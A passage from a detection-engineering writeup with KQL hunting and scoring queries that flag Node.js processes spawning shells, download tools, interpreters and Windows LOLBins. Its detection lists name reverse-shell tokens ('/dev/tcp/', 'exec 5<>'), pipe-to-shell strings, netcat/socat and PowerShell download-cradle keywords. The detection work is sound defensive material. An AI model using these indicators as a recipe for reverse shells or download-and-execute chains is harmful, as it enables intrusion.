// │ HasReverseShell       │   30   │ /dev/tcp/ = near-certain RCE           │
// │ HasWindowsCradle      │   30   │ IEX/DownloadString = confirmed cradle  │
// │ HasPipeToShell        │   25   │ pipe to interpreter = exec chain       │
// │ HasRemoteURL          │   20   │ external URL = staging indicator       │
// │ HasBase64             │   15   │ encoded payload = obfuscation          │
// │ IsManagedEnv (penalty)│  -25   │ CI/CD context = legitimate use likely  │
// └───────────────────────┴────────┴────────────────────────────────────────┘
| extend RawScore = 55
    + iff(HasReverseShell == 1,    30, 0)
    + iff(HasWindowsCradle == 1,   30, 0)
    + iff(HasPipeToShell == 1,     25, 0)
    + iff(HasRemoteURL == 1,       20, 0)
    + iff(HasBase64 == 1,          15, 0)
    - iff(IsManagedEnv == 1,       25, 0)
// [FIX-10] Score floor at zero — negative scores corrupt SIEM integrations
| extend RiskScore = iif(RawScore < 0, 0, RawScore)
| where RiskScore >= 75

// ── PHASE 4: HUNTER DIRECTIVE ────────────────────────────────────────────────
// [FIX-DIRECTIVE] Defined BEFORE project, included in project list
// Schema Confidence: All fields confirmed from MDE DeviceProcessEvents schema.
// Fields: Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine,
//         InitiatingProcessFileName, InitiatingProcessFolderPath, SHA256
// No hallucinated fields.
| extend HunterDirective = case(
    RiskScore >= 110,
        strcat(
            "CRITICAL — NODE.JS RCE CONFIRMED | ",
            iif(IsWindows == 1,
                "PowerShell cradle / encoded payload executed from Node.js. ",
                "Reverse shell or pipe-to-shell from Node.js. "),
            "Score=", tostring(RiskScore), " | ",
            "ACTIONS: 1. ISOLATE ", DeviceName, " immediately. ",
            "2. Identify the vulnerable Node.js application and endpoint. ",
            "3. Pivot to DeviceNetworkEvents on DeviceId for C2 connections. ",
            "4. Check DeviceFileEvents for dropped payload files. ",
            "5. Scope same parent process hash across estate."
        ),
    RiskScore >= 90,
        strcat(
            "HIGH — SUSPICIOUS NODE.JS CHILD PROCESS | ",
            "Score=", tostring(RiskScore), " | ",
            "ACTIONS: 1. Review full command line: ", ProcessCommandLine, ". ",
            "2. Identify originating Node.js application. ",
            "3. Check network connections from ", DeviceName, " around this time. ",
            "4. Correlate AccountName=", AccountName, " for lateral movement."
        ),
    strcat(
        "MEDIUM — NODE.JS SPAWNED UNUSUAL PROCESS | ",
        "Score=", tostring(RiskScore), " | ",
        "Verify whether this is an authorised build pipeline or CI/CD operation. ",
        "If unexpected: escalate to HIGH and investigate parent application."
    )
)
// [FIX-1] arg_max for deterministic output
| summarize arg_max(Timestamp, *) by DeviceId, AccountName, FileName
| project
    Timestamp,
    DeviceName,
    AccountName,
    ParentProcess    = InitiatingProcessFileName,
    ChildProcess     = FileName,
    ProcessCommandLine,
    RiskScore,
    HasReverseShell,
    HasPipeToShell,
    HasRemoteURL,
    HasBase64,
    HasWindowsCradle,
    IsManagedEnv,
    IsLinux,
    IsWindows,
    HunterDirective
| sort by RiskScore desc
```

---

## 10. Router Rule

**Purpose:** Triage surface covering all Node.js child process abuse variants. Routes analysts to dedicated composites per child tool category. Different child tools have radically different legitimate use profiles and require separate suppression models.

**Architecture:** 2 — Router Rule (Temporary)  
**Inference:** LOW-MEDIUM  
**Base Score:** 0  
**Threshold:** ≥ 30  
**Lifecycle:** Temporary — decomposition tracker active

### Decomposition Tracker

| Technique | Target Composite | Status | Action |
|-----------|-----------------|--------|--------|
| Node → bash/sh/dash | `NodeJS_Bash_RCE` | 🔴 Pending | Keep in router |
| Node → curl/wget/nc | `NodeJS_Downloader_RCE` | 🔴 Pending | Keep in router |
| Node → python/ruby/perl | `NodeJS_Interpreter_RCE` | 🔴 Pending | Keep in router |
| Node → powershell.exe | `NodeJS_PowerShell_RCE` | 🔴 Pending | Keep in router |
| Node → certutil/bitsadmin/mshta | `NodeJS_LOLBin_RCE` | 🔴 Pending | Keep in router |

```kql
// ============================================================================
// ROUTER RULE: NodeJS_ChildProcess_Abuse_Router
// ============================================================================
// Architecture : Router Rule (Architecture 2 — Triage Surface)
// Author       : Ala Dabat | MTDF 2026
// Platform     : MDE Advanced Hunting — Linux + Windows
// Lifecycle    : Router (Temporary)
// MITRE        : T1059.007
//
// INFERENCE DEPTH: LOW-MEDIUM
// WHY ROUTER RULE:
//   bash (CI/CD shell), curl (health checks), python (data pipelines),
//   powershell (Windows automation) all have radically different legitimate
//   use profiles. A single composite cannot suppress all three without
//   creating blind spots. Each needs its own noise domain and suppression model.
//
// Base = 0 · Threshold = 30 · Output: RoutingDirective
//
// DECOMPOSITION STATUS:
// ┌────────────────────────┬──────────────────────────────┬──────────────────┐
// │ Technique              │ Composite Status              │ Action           │
// ├────────────────────────┼──────────────────────────────┼──────────────────┤
// │ Node → bash/sh/dash    │ NodeJS_Bash_RCE — 🔴 Pending  │ Keep in router   │
// │ Node → curl/wget/nc    │ NodeJS_Downloader — 🔴 Pending│ Keep in router   │
// │ Node → python/ruby/perl│ NodeJS_Interpreter — 🔴 Pending│ Keep in router  │
// │ Node → powershell.exe  │ NodeJS_PowerShell — 🔴 Pending│ Keep in router   │
// │ Node → certutil/mshta  │ NodeJS_LOLBin — 🔴 Pending    │ Keep in router   │
// └────────────────────────┴──────────────────────────────┴──────────────────┘
// ============================================================================

let lookback = 7d;

// [FIX-8] All signal flags use toint() — consistent scoring arithmetic
let ShellGroup      = dynamic(["bash","dash","sh","zsh","busybox","fish"]);
let DownloadGroup   = dynamic(["curl","wget","nc","ncat","socat"]);
let InterpreterGrp  = dynamic(["python","python2","python3","perl","ruby","lua"]);
let WindowsCradle   = dynamic(["powershell.exe","pwsh.exe","cmd.exe"]);
let WindowsLOLBins  = dynamic(["certutil.exe","bitsadmin.exe","mshta.exe","wscript.exe"]);
let ManagedParents  = dynamic([
    "ccmexec.exe","intunemanagementextension.exe","taniumclient.exe"
]);
let ReverseShellTokens = dynamic(["/dev/tcp/","exec 5<>","socket.socket("]);
let PipeToShellTokens  = dynamic(["| bash","| sh","| dash","| zsh","| perl","| python"]);

// ── PHASE 1: BROAD SURFACE FILTER ────────────────────────────────────────────
DeviceProcessEvents
| where Timestamp > ago(lookback)
| where InitiatingProcessFileName in~ ("node", "node.exe")
| where FileName in~ (ShellGroup)
     or FileName in~ (DownloadGroup)
     or FileName in~ (InterpreterGrp)
     or FileName in~ (WindowsCradle)
     or FileName in~ (WindowsLOLBins)

// ── PHASE 2: SIGNAL ENRICHMENT ───────────────────────────────────────────────
// [FIX-7] Explicit iff(flag == 1, ...) throughout
| extend
    IsShell       = toint(FileName in~ (ShellGroup)),
    IsDownloader  = toint(FileName in~ (DownloadGroup)),
    IsInterpreter = toint(FileName in~ (InterpreterGrp)),
    IsWinCradle   = toint(FileName in~ (WindowsCradle)),
    IsWinLOLBin   = toint(FileName in~ (WindowsLOLBins)),

    HasReverseShell  = toint(ProcessCommandLine has_any (ReverseShellTokens)),
    HasPipeToShell   = toint(ProcessCommandLine has_any (PipeToShellTokens)),
    HasRemoteURL     = toint(ProcessCommandLine matches regex
                         @"\b(https?|ftp)://[^\s]+"),
    HasBase64        = toint(ProcessCommandLine has_any (
                         "-enc", "base64 -d", "-EncodedCommand")),
    HasWinCradleCmd  = toint(IsWinCradle == 1
                         and ProcessCommandLine has_any (
                             "IEX","DownloadString","Invoke-WebRequest")),
    IsManagedParent  = toint(InitiatingProcessFileName in~ (ManagedParents))

// ── PHASE 3: ROUTING SCORE ───────────────────────────────────────────────────
// Base = 0 — router rules never assert minimum truth on their own
| extend RawScore = 0
    + iff(HasReverseShell == 1,   40, 0)
    + iff(HasPipeToShell == 1,    30, 0)
    + iff(HasRemoteURL == 1,      25, 0)
    + iff(HasBase64 == 1,         20, 0)
    + iff(HasWinCradleCmd == 1,   20, 0)
    + iff(IsShell == 1,           10, 0)
    - iff(IsManagedParent == 1,   15, 0)
// [FIX-10] Score floor
| extend RiskScore = iif(RawScore < 0, 0, RawScore)
| where RiskScore >= 30

// ── PHASE 4: ROUTING DIRECTIVE ───────────────────────────────────────────────
// [FIX-DIRECTIVE] Defined BEFORE project, included in project list
| extend RoutingDirective = case(
    HasReverseShell == 1,
        strcat("CRITICAL → NodeJS_Bash_RCE composite | ",
               "Reverse shell pattern on ", DeviceName,
               " | Composite pending — investigate via NodeJS_SuspiciousChildProcesses"),
    IsShell == 1 and (HasPipeToShell == 1 or HasBase64 == 1),
        "HIGH → NodeJS_Bash_RCE composite | Shell with pipe-to-shell or encoded payload",
    IsDownloader == 1 and HasRemoteURL == 1,
        "HIGH → NodeJS_Downloader_RCE composite | Download tool with remote URL",
    IsInterpreter == 1 and (HasBase64 == 1 or HasRemoteURL == 1),
        "HIGH → NodeJS_Interpreter_RCE composite | Interpreter with suspicious execution flags",
    IsWinCradle == 1 and HasWinCradleCmd == 1,
        "HIGH → NodeJS_PowerShell_RCE composite | PowerShell download cradle from Node",
    IsWinLOLBin == 1 and HasRemoteURL == 1,
        "MEDIUM → NodeJS_LOLBin_RCE composite | LOLBin with remote URL from Node",
    "MEDIUM → No dedicated composite yet | Investigate child process context manually"
)
// [FIX-1] arg_max for deterministic output
| summarize arg_max(Timestamp, *) by DeviceId, AccountName, FileName
| project
    Timestamp, DeviceName, AccountName,
    ParentProcess = InitiatingProcessFileName,
    ChildProcess  = FileName,
    ProcessCommandLine,
    RiskScore,
    IsShell, IsDownloader, IsInterpreter, IsWinCradle, IsWinLOLBin,
    HasReverseShell, HasPipeToShell, HasRemoteURL, HasBase64,
    RoutingDirective
| sort by RiskScore desc
```

---

## 11. PEAK/TAHITI Hunt Query

**Purpose:** Proactive threat hunting hypothesis: "Is Node.js being abused to spawn shell processes with reverse shell or remote execution primitives in our environment?"

**Architecture:** 4 — Hunt Query  
**PEAK Type:** E — Entity (Intel-Driven)  
**TAHITI Phase:** T4 — Analysis  
**Threshold:** None  
**Lifecycle:** Single investigation

```kql
// ============================================================================
// HUNT QUERY: NodeJS_RCE_ChildProcess_Hunt (Cross-Platform)
// ============================================================================
// Architecture  : Hunt Query (Architecture 4 — PEAK/TAHITI)
// PEAK Type     : E — Entity (Intel-Driven)
// TAHITI Phase  : T4 — Analysis
// Author        : Ala Dabat | MTDF 2026
// Platform      : MDE Advanced Hunting
// MITRE         : T1059.007
//
// HYPOTHESIS:
//   "I hypothesise that Node.js is being abused to spawn shell processes
//    with reverse shell or remote execution primitives, which would be
//    visible as node → [shell/downloader/interpreter] with RCE command-line
//    content in DeviceProcessEvents."
//
// Schema Confidence: All fields confirmed from MDE DeviceProcessEvents schema.
// Fields: Timestamp, DeviceName, AccountName, FileName, ProcessCommandLine,
//         InitiatingProcessFileName, InitiatingProcessFolderPath,
//         InitiatingProcessSHA256, SHA256, DeviceId
// No hallucinated fields.
//
// ⚠ HUNT MODE — NOT FOR PRODUCTION DEPLOYMENT ⚠
// No production threshold. All results require analyst review.
// If hypothesis is validated, promote to MTDF via Promotion Package.
//
// TIME WINDOW: 14d (adjustable — use 30d for supply chain investigation)
// SCOPE: All devices (narrow to web servers if environment is known)
// ============================================================================

let lookback = 14d;

// ── HUNT SURFACE: All Node.js child process events ───────────────────────────
// Cast wide — hunt queries do not gate results
DeviceProcessEvents
| where Timestamp > ago(lookback)
| where InitiatingProcessFileName in~ ("node", "node.exe")
| where FileName in~ (
    // Linux shells
    "bash","dash","sh","zsh","fish","busybox",
    // Linux network/download tools
    "curl","wget","nc","ncat","socat",
    // Interpreters
    "python","python2","python3","perl","ruby","lua",
    // Windows shells and LOLBins
    "powershell.exe","pwsh.exe","cmd.exe","wscript.exe",
    "cscript.exe","certutil.exe","bitsadmin.exe","mshta.exe"
)

// ── SIGNAL TAGGING (no scoring — analyst interprets) ─────────────────────────
// [FIX-8] toint() throughout for consistency
| extend
    // Child type classification
    IsShell       = toint(FileName in~ ("bash","dash","sh","zsh","fish","busybox")),
    IsDownloader  = toint(FileName in~ ("curl","wget","nc","ncat","socat")),
    IsInterpreter = toint(FileName in~ ("python","python2","python3","perl","ruby","lua")),
    IsWindowsBin  = toint(FileName endswith ".exe"),

    // RCE signal tags
    HasDevTcp      = toint(ProcessCommandLine has "/dev/tcp"),
    HasPipeToShell = toint(ProcessCommandLine matches regex
                        @"\|\s*(bash|sh|dash|zsh|perl|python|python3)"),
    HasRemoteURL   = toint(ProcessCommandLine matches regex
                        @"\b(https?|ftp)://[^\s]+"),
    HasEncodedCmd  = toint(ProcessCommandLine has_any (
                        "-enc","-EncodedCommand","base64 -d","base64 --decode")),
    HasWindowsRCE  = toint(
                        FileName in~ ("powershell.exe","pwsh.exe")
                        and ProcessCommandLine has_any (
                            "IEX","Invoke-Expression","DownloadString",
                            "Invoke-WebRequest","iwr","-ExecutionPolicy Bypass")),

    // Context tags
    IsBuildServer  = toint(
                        InitiatingProcessFolderPath has_any (
                            "/home/jenkins","/opt/build",
                            "C:\\ProgramData\\Jenkins",
                            "/var/lib/gitlab-runner"))

// ── HUNT SIGNAL ASSEMBLY ──────────────────────────────────────────────────────
| extend HuntSignals = strcat(
    iif(HasDevTcp == 1,      "[REVERSE_SHELL] ", ""),
    iif(HasPipeToShell == 1, "[PIPE_TO_SHELL] ", ""),
    iif(HasRemoteURL == 1,   "[REMOTE_URL] ",   ""),
    iif(HasEncodedCmd == 1,  "[ENCODED_CMD] ",  ""),
    iif(HasWindowsRCE == 1,  "[WIN_CRADLE] ",   ""),
    iif(IsBuildServer == 1,  "[BUILD_SERVER] ", ""),
    iif(IsShell == 1,        "[SHELL] ",        ""),
    iif(IsDownloader == 1,   "[DOWNLOADER] ",   ""),
    iif(IsInterpreter == 1,  "[INTERPRETER] ",  "")
)

// ── ANALYST OUTPUT ────────────────────────────────────────────────────────────
| project
    Timestamp,
    DeviceName,
    AccountName,
    ParentProcess         = InitiatingProcessFileName,
    ParentFolder          = InitiatingProcessFolderPath,
    ChildProcess          = FileName,
    ProcessCommandLine,
    HuntSignals,
    DeviceId,
    ChildSHA256           = SHA256,
    ParentSHA256          = InitiatingProcessSHA256
| sort by Timestamp desc

// ── HUNT ANALYST NOTES ────────────────────────────────────────────────────────
// WHAT TO LOOK FOR:
//   [REVERSE_SHELL] tags = almost certainly malicious — escalate immediately
//   [PIPE_TO_SHELL] + [REMOTE_URL] = download-and-execute chain — escalate
//   [BUILD_SERVER] = verify CI/CD context — may be legitimate
//   [DOWNLOADER] without [REMOTE_URL] = check command line manually
//
// HIGH CONFIDENCE INDICATORS:
//   node → bash with [REVERSE_SHELL] = confirmed RCE
//   node → curl with [PIPE_TO_SHELL] = confirmed download-and-execute
//   node → powershell with [WIN_CRADLE] = confirmed Windows cradle
//
// NOISE INDICATORS (likely legitimate):
//   node → bash without any signal tags = test runner or shell script
//   node → curl to internal RFC1918 addresses = service health check
//   [BUILD_SERVER] on node → bash = CI/CD pipeline step
//
// PIVOT RECOMMENDATIONS:
//   [REVERSE_SHELL] found → pivot DeviceNetworkEvents on DeviceId + Timestamp
//     to identify C2 IP and port
//   ChildSHA256 → pivot DeviceFileEvents to find dropped payload files
//   AccountName → pivot DeviceLogonEvents to scope lateral movement
//   ParentFolder → identify the specific Node.js application file path
//
// PROMOTION TRIGGER:
//   Any row with [REVERSE_SHELL] or [PIPE_TO_SHELL]+[REMOTE_URL] confirmed
//   malicious → generate Promotion Package → feed Engineering Copilot
//   → build NodeJS_Bash_RCE or NodeJS_Downloader_RCE composite sensor
```

---

## 12. How the Three Layers Interact



**The entity key that stitches all layers:**

| Key | What it stitches |
|-----|-----------------|
| `DeviceId` | All four layers → complete host timeline |
| `AccountName` | Composite + Hunt → lateral movement scope |
| `SHA256` (child) | Primitive + Hunt → dropped payload search |
| `InitiatingProcessSHA256` | All layers → Node.js application identity |

---

## 13. Cousin Technique Ecosystem

Node.js child process abuse belongs to a family of web application runtime RCE techniques. Each cousin lives in a different noise domain and requires its own composite.



**Cousin build priority:**

| Priority | Cousin | Prevalence | MTDF Skeleton |
|----------|--------|-----------|---------------|
| 1 | PHP `exec()` abuse | HIGH — extremely common in legacy apps | B Intent-First |
| 2 | Python `subprocess` abuse | HIGH — Flask/Django APIs | B Intent-First |
| 3 | Java `Runtime.exec()` | MEDIUM — Tomcat/Spring common | B Intent-First |
| 4 | Ruby `Kernel.exec()` | LOW — Rails less prevalent | B Intent-First |

---

## 14. Operational Recommendations



### Application Hardening

| Control | Mitigation |
|---------|------------|
| Remove `X-Powered-By` header | `app.disable('x-powered-by')` |
| Disable stack traces in production | `NODE_ENV=production` |
| Block `/package.json` routes | Nginx deny rule |
| Sanitise `__proto__` in JSON merge | `Object.create(null)` target or `lodash.merge` with key block |
| Use `child_process.spawn()` with args array | Prevents shell injection vs `exec()` with string |
| Restrict outbound network from Node.js process | Firewall rules — deny unexpected egress |
| Run Node.js as non-root | `USER node` in Dockerfile |
| Monitor for `/dev/tcp` in process args | SIEM alert on this string in any process |

---

*Author: Ala Dabat | [github.com/azdabat](https://github.com/azdabat)*  
*Part of the [Minimum Truth Detection Framework](https://github.com/azdabat/Minimum-Truth-Detection-Framework-ADX-Validated-Composite-Rules)*  
*Licensed under [CC BY-NC-SA 4.0](https://creativecommons.org/licenses/by-nc-sa/4.0/)*
